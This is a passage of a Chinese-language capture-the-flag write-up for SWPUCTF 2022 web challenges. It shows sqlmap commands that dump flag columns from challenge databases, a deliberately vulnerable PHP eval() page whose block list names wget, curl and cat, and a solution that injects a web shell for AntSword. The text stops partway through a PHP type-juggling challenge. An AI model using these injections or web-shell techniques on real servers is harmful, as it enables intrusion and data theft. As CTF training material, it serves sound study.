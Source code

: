 > 部分wp来自 [2022 SWPUCTF Web Writeup](https://mp.weixin.qq.com/s/7vOX5hgN90Sejdn6SwWz-A) ，[问谛居 - 欢迎做客问谛居 (wd-ljt.com)](https://www.wd-ljt.com/)，榜一大佬，Tony师傅，没有完全按题目顺序写题解

GitHub版本：[yjprolus/SWPUCTF2022: SWPUCTF2022 wp (github.com)](https://github.com/yjprolus/SWPUCTF2022)

# web

## 欢迎来到Web安全

查看源码搜索 swpu 得到flag

## easy_sql

源码提示参数为 wllm

```shell
sqlmap -u "http://175.24.172.136:30083/?wllm=1" -D test_db -T test_tb -C fllaag --dump

sqlmap -u "http://175.24.172.136:30071/?wllm=1" -D test_peng -T test_2tb -C ffflllaaaggg --dump # 迷惑性选项
```

## happy_rce

访问 `next.php`，根据提示访	问 `jiangnaij.php`

```php
<?php
error_reporting(0);
header("Content-Type:text/html;charset=utf-8");
highlight_file(__FILE__);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $ip)){
      die('换个方法吧？被过滤啦！');
  }
  eval($ip);
}
?> 
```

蚁剑连接 `http://175.24.172.136:30023/jiangnaij.php?url=eval($_POST[%27yjprolus%27]);` ，密码为 `yjprolus`，文件管理定位到根目录下找到 flag

## happy_php

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
$a=0.58;
if (!preg_match('/[^0-9]/',$_GET['jiangnaij'])){
    if ((int)(substr(md5($_GET['jiangnaij']),0,6)) === 666666) {
        if (isset($_POST['pysnow']) and isset($_POST['M1sery']))
        {
            if ($_POST['pysnow'] != $_POST['M1sery'])
            {
                if (md5($_POST['pysnow']) == md5($_POST['M1sery'])){
                    if (isset($_POST['s0rry']) and isset($_POST['DSTBP']))
                    {
                        if ((string)$_POST['s0rry'] != (string)$_POST['DSTBP'])
                        {
```